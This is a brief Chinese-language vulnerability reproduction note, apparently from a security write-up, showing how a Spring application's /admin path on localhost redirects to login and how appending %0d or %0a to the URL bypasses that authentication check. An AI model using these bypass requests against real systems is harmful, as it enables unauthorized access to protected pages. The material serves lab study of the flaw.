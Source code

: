 ![image-20230519092639570](./img/spring/image-20230519092639570.png)



#### 漏洞复现

访问`http://127.0.0.1:8080/admin/1`会因为没有登录而跳转到login界面

![image-20230519091307641](./img/spring/image-20230519091307641.png)

访问如下即可绕过

```
http://127.0.0.1:8080/admin/1%0d
http://127.0.0.1:8080/admin/1%0a
```


